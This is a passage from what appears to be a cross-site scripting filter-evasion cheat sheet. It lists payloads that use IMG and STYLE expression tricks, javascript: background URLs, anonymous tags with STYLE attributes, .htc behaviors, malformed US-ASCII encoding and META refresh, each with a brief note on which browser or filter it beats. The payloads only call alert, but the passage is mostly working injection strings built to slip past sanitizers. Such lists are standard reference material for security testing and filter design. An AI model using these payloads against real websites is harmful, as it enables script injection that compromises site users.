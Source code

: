 ```js
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```



## IMG STYLE with Expression
This is really a hybrid of the above XSS vectors, but it really does show how hard STYLE tags can be to parse apart, like above this can send IE into a loop:

```
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
STYLE Tag (Older versions of Netscape only)
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>

STYLE Tag using Background-image
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>

STYLE Tag using Background
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE> <STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>
```

## Anonymous HTML with STYLE Attribute
IE6.0 and Netscape 8.1+ in IE rendering engine mode don’t really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a letter:

```js
<XSS STYLE="xss:expression(alert('XSS'))">
```

## Local htc File
This is a little different than the above two cross site scripting vectors because it uses an .htc file which must be on the same server as the XSS vector. The example file works by pulling in the JavaScript and running it as part of the style attribute:
```js
<XSS STYLE="behavior: url(xss.htc);">
```
US-ASCII Encoding
US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII encoding with 7 bits instead of 8. This XSS may bypass many content filters but only works if the host transmits in US-ASCII encoding, or if you set the encoding yourself. This is more useful against web application firewall cross site scripting evasion than it is server side filter evasion. Apache Tomcat is the only known server that transmits in US-ASCII encoding.
```
¼script¾alert(¢XSS¢)¼/script¾
```
META
The odd thing about meta refresh is that it doesn’t send a referrer in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:

```js
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```
